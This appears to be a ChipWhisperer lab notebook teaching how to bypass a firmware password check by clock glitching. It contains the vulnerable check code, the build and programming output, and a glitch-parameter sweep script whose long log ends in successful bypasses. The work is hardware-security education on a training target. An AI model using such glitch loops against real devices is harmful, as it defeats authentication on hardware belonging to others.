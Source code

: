 Part 1, Topic 2: Clock Glitching to Bypass Password
===================================================



**SUMMARY:** *In the previous lab, we learned how clock glitching can be
used to cause a target to behave unexpectedly. In this lab, we’ll look
at a slightly more realistic example - glitching past a password check*

**LEARNING OUTCOMES:**

-  Applying previous glitch settings to new firmware
-  Checking for success and failure when glitching

Firmware
--------

We’ve already seen how we can insert clock gliches to mess up a
calculation that a target is trying to make. While this has many
applications, some which will be covered in Fault_201, let’s take a look
at something a little closer to our original example of glitch
vulnerable code: a password check. No need to change out firmware here,
we’re still using the simpleserial-glitch project (though we’ll go
through all the build stuff again).

The code is as follows for the password check:

.. code:: c

   uint8_t password(uint8_t* pw)
   {
       char passwd[] = "touch";
       char passok = 1;
       int cnt;

       trigger_high();

       //Simple test - doesn't check for too-long password!
       for(cnt = 0; cnt < 5; cnt++){
           if (pw[cnt] != passwd[cnt]){
               passok = 0;
           }
       }
       
       trigger_low();
       
       simpleserial_put('r', 1, (uint8_t*)&passok);
       return passok;
   }

There’s really nothing out of the ordinary here - it’s just a simple
password check. We can communicate with it using the ``'p'`` command.


**In [1]:**

.. code:: ipython3

    SCOPETYPE = 'OPENADC'
    PLATFORM = 'CWLITEARM'


**In [2]:**

.. code:: bash

    %%bash -s "$PLATFORM"
    cd ../../../hardware/victims/firmware/simpleserial-glitch
    make PLATFORM=$1 CRYPTO_TARGET=NONE


**Out [2]:**



.. parsed-literal::

    SS_VER set to SS_VER_1_1
    rm -f -- simpleserial-glitch-CWLITEARM.hex
    rm -f -- simpleserial-glitch-CWLITEARM.eep
    rm -f -- simpleserial-glitch-CWLITEARM.cof
    rm -f -- simpleserial-glitch-CWLITEARM.elf
    rm -f -- simpleserial-glitch-CWLITEARM.map
    rm -f -- simpleserial-glitch-CWLITEARM.sym
    rm -f -- simpleserial-glitch-CWLITEARM.lss
    rm -f -- objdir/\*.o
    rm -f -- objdir/\*.lst
    rm -f -- simpleserial-glitch.s simpleserial.s stm32f3_hal.s stm32f3_hal_lowlevel.s stm32f3_sysmem.s
    rm -f -- simpleserial-glitch.d simpleserial.d stm32f3_hal.d stm32f3_hal_lowlevel.d stm32f3_sysmem.d
    rm -f -- simpleserial-glitch.i simpleserial.i stm32f3_hal.i stm32f3_hal_lowlevel.i stm32f3_sysmem.i
    .
    Welcome to another exciting ChipWhisperer target build!!
    arm-none-eabi-gcc.exe (GNU Arm Embedded Toolchain 9-2020-q2-update) 9.3.1 20200408 (release)
    Copyright (C) 2019 Free Software Foundation, Inc.
    This is free software; see the source for copying conditions.  There is NO
    warranty; not even for MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.
    
    .
    Compiling C: simpleserial-glitch.c
    arm-none-eabi-gcc -c -mcpu=cortex-m4 -I. -mthumb -mfloat-abi=soft -fmessage-length=0 -ffunction-sections -gdwarf-2 -DSS_VER=SS_VER_1_1 -DSTM32F303xC -DSTM32F3 -DSTM32 -DDEBUG -DHAL_TYPE=HAL_stm32f3 -DPLATFORM=CWLITEARM -DF_CPU=7372800UL -Os -funsigned-char -funsigned-bitfields -fshort-enums -Wall -Wstrict-prototypes -Wa,-adhlns=objdir/simpleserial-glitch.lst -I.././simpleserial/ -I.././hal -I.././hal/stm32f3 -I.././hal/stm32f3/CMSIS -I.././hal/stm32f3/CMSIS/core -I.././hal/stm32f3/CMSIS/device -I.././hal/stm32f4/Legacy -I.././crypto/ -std=gnu99  -MMD -MP -MF .dep/simpleserial-glitch.o.d simpleserial-glitch.c -o objdir/simpleserial-glitch.o 
    .
    Compiling C: .././simpleserial/simpleserial.c
    arm-none-eabi-gcc -c -mcpu=cortex-m4 -I. -mthumb -mfloat-abi=soft -fmessage-length=0 -ffunction-sections -gdwarf-2 -DSS_VER=SS_VER_1_1 -DSTM32F303xC -DSTM32F3 -DSTM32 -DDEBUG -DHAL_TYPE=HAL_stm32f3 -DPLATFORM=CWLITEARM -DF_CPU=7372800UL -Os -funsigned-char -funsigned-bitfields -fshort-enums -Wall -Wstrict-prototypes -Wa,-adhlns=objdir/simpleserial.lst -I.././simpleserial/ -I.././hal -I.././hal/stm32f3 -I.././hal/stm32f3/CMSIS -I.././hal/stm32f3/CMSIS/core -I.././hal/stm32f3/CMSIS/device -I.././hal/stm32f4/Legacy -I.././crypto/ -std=gnu99  -MMD -MP -MF .dep/simpleserial.o.d .././simpleserial/simpleserial.c -o objdir/simpleserial.o 
    .
    Compiling C: .././hal/stm32f3/stm32f3_hal.c
    arm-none-eabi-gcc -c -mcpu=cortex-m4 -I. -mthumb -mfloat-abi=soft -fmessage-length=0 -ffunction-sections -gdwarf-2 -DSS_VER=SS_VER_1_1 -DSTM32F303xC -DSTM32F3 -DSTM32 -DDEBUG -DHAL_TYPE=HAL_stm32f3 -DPLATFORM=CWLITEARM -DF_CPU=7372800UL -Os -funsigned-char -funsigned-bitfields -fshort-enums -Wall -Wstrict-prototypes -Wa,-adhlns=objdir/stm32f3_hal.lst -I.././simpleserial/ -I.././hal -I.././hal/stm32f3 -I.././hal/stm32f3/CMSIS -I.././hal/stm32f3/CMSIS/core -I.././hal/stm32f3/CMSIS/device -I.././hal/stm32f4/Legacy -I.././crypto/ -std=gnu99  -MMD -MP -MF .dep/stm32f3_hal.o.d .././hal/stm32f3/stm32f3_hal.c -o objdir/stm32f3_hal.o 
    .
    Compiling C: .././hal/stm32f3/stm32f3_hal_lowlevel.c
    arm-none-eabi-gcc -c -mcpu=cortex-m4 -I. -mthumb -mfloat-abi=soft -fmessage-length=0 -ffunction-sections -gdwarf-2 -DSS_VER=SS_VER_1_1 -DSTM32F303xC -DSTM32F3 -DSTM32 -DDEBUG -DHAL_TYPE=HAL_stm32f3 -DPLATFORM=CWLITEARM -DF_CPU=7372800UL -Os -funsigned-char -funsigned-bitfields -fshort-enums -Wall -Wstrict-prototypes -Wa,-adhlns=objdir/stm32f3_hal_lowlevel.lst -I.././simpleserial/ -I.././hal -I.././hal/stm32f3 -I.././hal/stm32f3/CMSIS -I.././hal/stm32f3/CMSIS/core -I.././hal/stm32f3/CMSIS/device -I.././hal/stm32f4/Legacy -I.././crypto/ -std=gnu99  -MMD -MP -MF .dep/stm32f3_hal_lowlevel.o.d .././hal/stm32f3/stm32f3_hal_lowlevel.c -o objdir/stm32f3_hal_lowlevel.o 
    .
    Compiling C: .././hal/stm32f3/stm32f3_sysmem.c
    arm-none-eabi-gcc -c -mcpu=cortex-m4 -I. -mthumb -mfloat-abi=soft -fmessage-length=0 -ffunction-sections -gdwarf-2 -DSS_VER=SS_VER_1_1 -DSTM32F303xC -DSTM32F3 -DSTM32 -DDEBUG -DHAL_TYPE=HAL_stm32f3 -DPLATFORM=CWLITEARM -DF_CPU=7372800UL -Os -funsigned-char -funsigned-bitfields -fshort-enums -Wall -Wstrict-prototypes -Wa,-adhlns=objdir/stm32f3_sysmem.lst -I.././simpleserial/ -I.././hal -I.././hal/stm32f3 -I.././hal/stm32f3/CMSIS -I.././hal/stm32f3/CMSIS/core -I.././hal/stm32f3/CMSIS/device -I.././hal/stm32f4/Legacy -I.././crypto/ -std=gnu99  -MMD -MP -MF .dep/stm32f3_sysmem.o.d .././hal/stm32f3/stm32f3_sysmem.c -o objdir/stm32f3_sysmem.o 
    .
    Assembling: .././hal/stm32f3/stm32f3_startup.S
    arm-none-eabi-gcc -c -mcpu=cortex-m4 -I. -x assembler-with-cpp -mthumb -mfloat-abi=soft -fmessage-length=0 -ffunction-sections -DF_CPU=7372800 -Wa,-gstabs,-adhlns=objdir/stm32f3_startup.lst -I.././simpleserial/ -I.././hal -I.././hal/stm32f3 -I.././hal/stm32f3/CMSIS -I.././hal/stm32f3/CMSIS/core -I.././hal/stm32f3/CMSIS/device -I.././hal/stm32f4/Legacy -I.././crypto/ .././hal/stm32f3/stm32f3_startup.S -o objdir/stm32f3_startup.o
    .
    Linking: simpleserial-glitch-CWLITEARM.elf
    arm-none-eabi-gcc -mcpu=cortex-m4 -I. -mthumb -mfloat-abi=soft -fmessage-length=0 -ffunction-sections -gdwarf-2 -DSS_VER=SS_VER_1_1 -DSTM32F303xC -DSTM32F3 -DSTM32 -DDEBUG -DHAL_TYPE=HAL_stm32f3 -DPLATFORM=CWLITEARM -DF_CPU=7372800UL -Os -funsigned-char -funsigned-bitfields -fshort-enums -Wall -Wstrict-prototypes -Wa,-adhlns=objdir/simpleserial-glitch.o -I.././simpleserial/ -I.././hal -I.././hal/stm32f3 -I.././hal/stm32f3/CMSIS -I.././hal/stm32f3/CMSIS/core -I.././hal/stm32f3/CMSIS/device -I.././hal/stm32f4/Legacy -I.././crypto/ -std=gnu99  -MMD -MP -MF .dep/simpleserial-glitch-CWLITEARM.elf.d objdir/simpleserial-glitch.o objdir/simpleserial.o objdir/stm32f3_hal.o objdir/stm32f3_hal_lowlevel.o objdir/stm32f3_sysmem.o objdir/stm32f3_startup.o --output simpleserial-glitch-CWLITEARM.elf --specs=nano.specs --specs=nosys.specs -T .././hal/stm32f3/LinkerScript.ld -Wl,--gc-sections -lm -Wl,-Map=simpleserial-glitch-CWLITEARM.map,--cref   -lm  
    .
    Creating load file for Flash: simpleserial-glitch-CWLITEARM.hex
    arm-none-eabi-objcopy -O ihex -R .eeprom -R .fuse -R .lock -R .signature simpleserial-glitch-CWLITEARM.elf simpleserial-glitch-CWLITEARM.hex
    .
    Creating load file for EEPROM: simpleserial-glitch-CWLITEARM.eep
    arm-none-eabi-objcopy -j .eeprom --set-section-flags=.eeprom="alloc,load" \
    --change-section-lma .eeprom=0 --no-change-warnings -O ihex simpleserial-glitch-CWLITEARM.elf simpleserial-glitch-CWLITEARM.eep \|\| exit 0
    .
    Creating Extended Listing: simpleserial-glitch-CWLITEARM.lss
    arm-none-eabi-objdump -h -S -z simpleserial-glitch-CWLITEARM.elf > simpleserial-glitch-CWLITEARM.lss
    .
    Creating Symbol Table: simpleserial-glitch-CWLITEARM.sym
    arm-none-eabi-nm -n simpleserial-glitch-CWLITEARM.elf > simpleserial-glitch-CWLITEARM.sym
    Size after:
       text	   data	    bss	    dec	    hex	filename
       5232	      8	   1296	   6536	   1988	simpleserial-glitch-CWLITEARM.elf
    +--------------------------------------------------------
    + Default target does full rebuild each time.
    + Specify buildtarget == allquick == to avoid full rebuild
    +--------------------------------------------------------
    +--------------------------------------------------------
    + Built for platform CW-Lite Arm \(STM32F3\) with:
    + CRYPTO_TARGET = NONE
    + CRYPTO_OPTIONS = 
    +--------------------------------------------------------
    



**In [3]:**

.. code:: ipython3

    %run "../../Setup_Scripts/Setup_Generic.ipynb"


**Out [3]:**



.. parsed-literal::

    Serial baud rate = 38400
    INFO: Found ChipWhisperer😍
    



**In [4]:**

.. code:: ipython3

    fw_path = "../../../hardware/victims/firmware/simpleserial-glitch/simpleserial-glitch-{}.hex".format(PLATFORM)
    cw.program_target(scope, prog, fw_path)


**Out [4]:**



.. parsed-literal::

    Serial baud rate = 115200
    Detected known STMF32: STM32F302xB(C)/303xB(C)
    Extended erase (0x44), this can take ten seconds or more
    Attempting to program 5239 bytes at 0x8000000
    STM32F Programming flash...
    STM32F Reading flash...
    Verified flash OK, 5239 bytes
    Serial baud rate = 38400
    



**In [5]:**

.. code:: ipython3

    if PLATFORM == "CWLITEXMEGA":
        def reboot_flush():            
            scope.io.pdic = False
            time.sleep(0.1)
            scope.io.pdic = "high_z"
            time.sleep(0.1)
            #Flush garbage too
            target.flush()
    else:
        def reboot_flush():            
            scope.io.nrst = False
            time.sleep(0.05)
            scope.io.nrst = "high_z"
            time.sleep(0.05)
            #Flush garbage too
            target.flush()

If we send a wrong password:


**In [6]:**

.. code:: ipython3

    #Do glitch loop
    pw = bytearray([0x00]*5)
    target.simpleserial_write('p', pw)
    
    val = target.simpleserial_read_witherrors('r', 1, glitch_timeout=10)#For loop check
    valid = val['valid']
    if valid:
        response = val['payload']
        raw_serial = val['full_response']
        error_code = val['rv']
    
    print(val)


**Out [6]:**



.. parsed-literal::

    {'valid': True, 'payload': CWbytearray(b'00'), 'full_response': 'r00\n', 'rv': 0}
    


We get a resposne of zero. But if we send the correct password:


**In [7]:**

.. code:: ipython3

    #Do glitch loop
    pw = bytearray([0x74, 0x6F, 0x75, 0x63, 0x68]) # correct password ASCII representation
    target.simpleserial_write('p', pw)
    
    val = target.simpleserial_read_witherrors('r', 1, glitch_timeout=10)#For loop check
    valid = val['valid']
    if valid:
        response = val['payload']
        raw_serial = val['full_response']
        error_code = val['rv']
    
    print(val)


**Out [7]:**



.. parsed-literal::

    {'valid': True, 'payload': CWbytearray(b'01'), 'full_response': 'r01\n', 'rv': 1}
    


We get a 1 back. Set the glitch up as in the previous part:


**In [8]:**

.. code:: ipython3

    scope.glitch.clk_src = 'clkgen'
    scope.glitch.trigger_src = 'ext_single'
    scope.glitch.repeat = 1
    scope.glitch.output = "clock_xor"
    scope.io.hs2 = "glitch"

Update the code below to also add an ext offset parameter:


**In [9]:**

.. code:: ipython3

    import matplotlib.pylab as plt
    import chipwhisperer.common.results.glitch as glitch
    gc = glitch.GlitchController(groups=["success", "reset", "normal"], parameters=["width", "offset", "ext_offset"])
    gc.display_stats()


**Out [9]:**













And make a glitch loop. Make sure you use some successful settings that
you found in the previous lab, since it will make this one much shorter!

One change you probably want to make is to add a scan for ext_offset.
The number of places we can insert a successful glitch has gone way
down. Doing this will also be very important for future labs.


**In [10]:**

.. code:: ipython3

    from importlib import reload
    import chipwhisperer.common.results.glitch as glitch
    from tqdm.notebook import tqdm
    import re
    import struct
    
    gc.set_range("width", 2, 14)
    gc.set_range("offset", -14, 14)
    gc.set_range("ext_offset", 11, 31)
    step = 1
    gc.set_global_step(step)
    scope.glitch.repeat = 1
    reboot_flush()
    broken = False
    
    for glitch_settings in gc.glitch_values():
        scope.glitch.offset = glitch_settings[1]
        scope.glitch.width = glitch_settings[0]
        scope.glitch.ext_offset = glitch_settings[2]
        if scope.adc.state:
            # can detect crash here (fast) before timing out (slow)
            print("Trigger still high!")
            gc.add("reset", (scope.glitch.width, scope.glitch.offset, scope.glitch.ext_offset))
            #plt.plot(lwid, loff, 'xr', alpha=1)
            #fig.canvas.draw()
    
            #Device is slow to boot?
            reboot_flush()
    
        scope.arm()
        target.simpleserial_write('p', bytearray([0]*5))
    
        ret = scope.capture()
    
        val = target.simpleserial_read_witherrors('r', 1, glitch_timeout=10)#For loop check
        if ret:
            print('Timeout - no trigger')
            gc.add("reset", (scope.glitch.width, scope.glitch.offset, scope.glitch.ext_offset))
    
            #Device is slow to boot?
            reboot_flush()
    
        else:
            if val['valid'] is False:
                gc.add("reset", (scope.glitch.width, scope.glitch.offset, scope.glitch.ext_offset))
                #plt.plot(scope.glitch.width, scope.glitch.offset, 'xr', alpha=1)
                #fig.canvas.draw()
            else:
                if val['rv'] == 1: #for loop check
                    broken = True
                    gc.add("success", (scope.glitch.width, scope.glitch.offset, scope.glitch.ext_offset))
                    print(val['payload'])
                    print(scope.glitch.width, scope.glitch.offset, scope.glitch.ext_offset)
                    print("🐙", end="")
                else:
                    gc.add("normal", (scope.glitch.width, scope.glitch.offset, scope.glitch.ext_offset))


**Out [10]:**



.. parsed-literal::

    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    




.. parsed-literal::

    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    




.. parsed-literal::

    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    CWbytearray(b'01')
    3.125 -1.953125 20
    🐙Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    CWbytearray(b'01')
    3.125 -1.953125 30
    🐙Trigger still high!
    




.. parsed-literal::

    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    




.. parsed-literal::

    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    




.. parsed-literal::

    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
